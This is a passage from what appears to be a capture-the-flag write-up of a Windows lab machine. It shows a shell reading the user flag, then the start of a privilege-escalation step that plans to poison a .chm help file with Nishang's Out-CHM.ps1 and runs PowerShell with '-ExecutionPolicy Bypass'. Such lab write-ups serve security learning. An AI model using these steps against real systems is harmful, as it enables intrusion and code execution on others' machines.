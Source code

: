 
```
PS C:\Users\Chris\Desktop> ls
ls
    Directory: C:\Users\Chris\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        4/11/2019   8:15 AM             32 user.txt                                                              


PS C:\Users\Chris\Desktop> more user.txt
more user.txt
21f4d******************
```


--- 
## User to Root

For root I searched every part of the user shell and uncomplete `.chm` file was found inside Chris's Downloads directory:

```
PS C:\Users\Chris\Downloads> ls
ls
    Directory: C:\Users\Chris\Downloads


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        4/11/2019   8:36 AM          10462 instructions.chm
```

### Poisoning .chm

In order to poison, I used `Out-CHM.ps1` while  from [Nishang](https://github.com/samratashok/nishang) which is quite Interesting git repo especially related to window.

I used nishand tool and opened it in powershell.

```
PS: > Import-Module .\Out-CHM.ps1
```

Now I used the powershell to bypasss the Antivirus security.
```
PS: > powershell.exe -ExecutionPolicy Bypass
```
